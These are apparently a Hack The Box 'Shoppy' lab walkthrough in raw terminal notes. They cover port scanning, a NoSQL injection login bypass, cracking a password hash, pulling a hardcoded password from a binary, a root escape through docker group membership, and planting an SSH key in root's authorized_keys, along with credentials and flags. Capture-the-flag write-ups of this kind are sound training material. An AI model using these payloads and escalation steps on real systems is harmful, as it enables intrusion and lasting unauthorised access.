

# Shoppy

sudo nmap -sCV 10.129.227.233

[sudo] password for oscpmaster:
Starting Nmap 7.99 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-21 04:03 -0400
Nmap scan report for 10.129.227.233
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to [http://shoppy.htb](http://shoppy.htb/)
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds

cat /etc/hosts

10.129.227.233 shoppy.htb

gobuster vhost -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt -u [http://shoppy.htb](http://shoppy.htb/) --append-domain --exclude-length 157

no vhosts detected 

found admin portal 

whatweb [http://shoppy.htbhttp://shoppy.htb](http://shoppy.htb/) [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.23.1], IP[10.129.227.233], JQuery, Script, Title[Shoppy Wait Page][Title element contains newline(s)!], nginx[1.23.1]

sudo nmap -p- -T5 10.129.17.82
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-21 04:55 EDT
Nmap scan report for shoppy.htb (10.129.17.82)
Host is up (0.0077s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

this confirms a mattermost instance on the target

10.129.17.82 shoppy.htb mattermost.shoppy.htb

curl -X POST --data "{"username": {"$regex": "admin.*"}, "password": {"$ne": null}}" [http://shoppy.htb](http://shoppy.htb/) -H "Content-Type: application/json"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected token u in JSON at position 1     at JSON.parse (<anonymous>)     at parse (/home/jaeger/ShoppyApp/node_modules/body-parser/lib/types/json.js:89:19)     at /home/jaeger/ShoppyApp/node_modules/body-parser/lib/read.js:128:18     at AsyncResource.runInAsyncScope (node:async_hooks:203:9)     at invokeCallback (/home/jaeger/ShoppyApp/node_modules/raw-body/index.js:231:16)     at done (/home/jaeger/ShoppyApp/node_modules/raw-body/index.js:220:7)     at IncomingMessage.onEnd (/home/jaeger/ShoppyApp/node_modules/raw-body/index.js:280:7)     at IncomingMessage.emit (node:events:513:28)     at endReadableNT (node:internal/streams/readable:1359:12)     at process.processTicksAndRejections (node:internal/process/task_queues:82:21)</pre>
</body>
</html>

admin'||'1'=='1 allows login to the portal 

sudo hashcat -m 0 6ebcea65320589ca4f2f1ce039975995 /usr/share/wordlists/rockyou.txt.gz -r /usr/share/hashcat/rules/best64.rule

josh:remembermethisway

jaeger:Sh0ppyBest@pp!

jaeger@shoppy:~$hostname
shoppy
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
jaeger@shoppy:~$ cat user.txt
0c010fed161b3f43e1369a391b8f66d7

sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !

sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: remembermethisway
Access denied! This incident will be reported !

objdump -s -j .rodata /home/deploy/password-manager | less

/home/deploy/password-manager:     file format elf64-x86-64

Contents of section .rodata:
2000 01000200 00000000 00000000 00000000  ................
2010 57656c63 6f6d6520 746f204a 6f736820  Welcome to Josh
2020 70617373 776f7264 206d616e 61676572  password manager
2030 21000000 00000000 506c6561 73652065  !.......Please e
2040 6e746572 20796f75 72206d61 73746572  nter your master
2050 20706173 73776f72 643a2000 00530061   password: ..S.a
2060 006d0070 006c0065 00000000 00000000  .m.p.l.e........
2070 41636365 73732067 72616e74 65642120  Access granted!
2080 48657265 20697320 63726564 73202100  Here is creds !.
2090 63617420 2f686f6d 652f6465 706c6f79  cat /home/deploy
20a0 2f637265 64732e74 78740000 00000000  /creds.txt......
20b0 41636365 73732064 656e6965 64212054  Access denied! T
20c0 68697320 696e6369 64656e74 2077696c  his incident wil
20d0 6c206265 20726570 6f727465 64202100  l be reported !.

Sample

jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

jaeger@shoppy:~$su deploy
Password:$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
$ whoami
deploy

deploy@shoppy:/$ docker run -v /:/mnt -it alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # cd /mnt
/mnt # ls
bin             lib             opt             tmp
boot            lib32           proc            usr
dev             lib64           root            var
etc             libx32          run             vmlinuz
home            lost+found      sbin            vmlinuz.old
initrd.img      media           srv
initrd.img.old  mnt             sys
/mnt # cd /root
~ # ls
~ # ls -la
total 12
drwx------    1 root     root          4096 Jun 22 13:45 .
drwxr-xr-x    1 root     root          4096 Jun 22 13:45 ..
-rw-------    1 root     root            33 Jun 22 13:45 .ash_history
~ # cat .ash_history
id
cd /mnt
ls
cd /root
ls
ls -la
cat .ash_history
~ # cd /mnt/root
/mnt/root # ls
root.txt
/mnt/root # cat root.txt
e610efd87f63fbb935f9ce008073bcf7
/mnt/root # ls -la
total 32
drwx------    5 root     root          4096 Jun 22 12:58 .
drwxr-xr-x   19 root     root          4096 Sep 12  2022 ..
lrwxrwxrwx    1 root     root             9 Jul 22  2022 .bash_history -> /dev/null
-rw-r--r--    1 root     root           571 Apr 10  2021 .bashrc
drwx------    3 root     root          4096 Jul 22  2022 .cache
drwx------    3 root     998           4096 Jul 22  2022 .config
lrwxrwxrwx    1 root     root             9 Jul 23  2022 .dbshell -> /dev/null
drwxr-xr-x    3 root     root          4096 Jul 22  2022 .local
-rw-------    1 root     root             0 Jul 23  2022 .mongorc.js
-rw-r--r--    1 root     root           161 Jul  9  2019 .profile
-rw-r-----    1 root     root            33 Jun 22 12:58 root.txt

ssh-keygen -t rsa -C "root@shoppy.htb"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/ronking37/.ssh/id_rsa):
Enter passphrase for "/home/ronking37/.ssh/id_rsa" (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/ronking37/.ssh/id_rsa
Your public key has been saved in /home/ronking37/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:JuYHqbD8r0BCR5tQKk4ESUYiaQChAVXau+wVMcdyKfQ root@shoppy.htb
The key's randomart image is:
+---[RSA 3072]----+
|^@o+. .          |
|Oo+oo. o .       |
|++.+. = E        |
|= .  . O         |
|..o . * S        |
| + + = =         |
|  + + o .        |
|   + . .         |
|    +o.          |
+----[SHA256]-----+

cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCU8b4sKuQCXxCGvOyk8Z+GQjfp9wT7bq1FvutA2Pr0ldn514P8mwfAdK+VCDG+ejVi32N1VJ8DNXFX8bpOolXe6I6NijIGbPfvmALurekMfgdwmhNQ8V9bad5G5svuE8Il8Arx94ILZFPXSNlJPvnhVpJcIR3ArM/enCMGkZGqsQfC/kQ+Da73Ut8PZWYmumymVebZAOMkJRzAXP4n254DXFMeNzzHgTgjQWLkGkJAz563M4FzEuo2NJB9kYOA0IbYqU132SFZPQUsn2hqlK+wXXMn9ZBOBozSc/oNfJQAo9HLGcUfGleuGJ+g23eFLefLkWI+lArcKEc8KRmJtibYU8uVB3Qi0KyfsyXUw7jX0uyMO8Zd0pV4MSZln1ac/Ea8nSc+3jsvwwkN6bQuwP5nTkaVghIeaPYquYlG90gYUbp0Hg1G+IJSfqhKI+Ki7rwq1ZGXbHyX3gXYZSji6fHhuqCgNXi/j4U9OcHvYSBwrSrHHA84nRornT/KcHpK3R8= root@shoppy.htb

/ # echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCU8b4sKuQCXxCGvOyk8Z+GQjfp9wT7bq
1FvutA2Pr0ldn514P8mwfAdK+VCDG+ejVi32N1VJ8DNXFX8bpOolXe6I6NijIGbPfvmALurekMfgdwmh
NQ8V9bad5G5svuE8Il8Arx94ILZFPXSNlJPvnhVpJcIR3ArM/enCMGkZGqsQfC/kQ+Da73Ut8PZWYmum
ymVebZAOMkJRzAXP4n254DXFMeNzzHgTgjQWLkGkJAz563M4FzEuo2NJB9kYOA0IbYqU132SFZPQUsn2
hqlK+wXXMn9ZBOBozSc/oNfJQAo9HLGcUfGleuGJ+g23eFLefLkWI+lArcKEc8KRmJtibYU8uVB3Qi0K
yfsyXUw7jX0uyMO8Zd0pV4MSZln1ac/Ea8nSc+3jsvwwkN6bQuwP5nTkaVghIeaPYquYlG90gYUbp0Hg
1G+IJSfqhKI+Ki7rwq1ZGXbHyX3gXYZSji6fHhuqCgNXi/j4U9OcHvYSBwrSrHHA84nRornT/KcHpK3R
8= root@shoppy.htb

> " > /mnt/root/.ssh/authorized_keys
> 

ssh root@shoppy.htb -i id_rsa
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@shoppy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@shoppy:~# cat /root/root.txt
e610efd87f63fbb935f9ce008073bcf7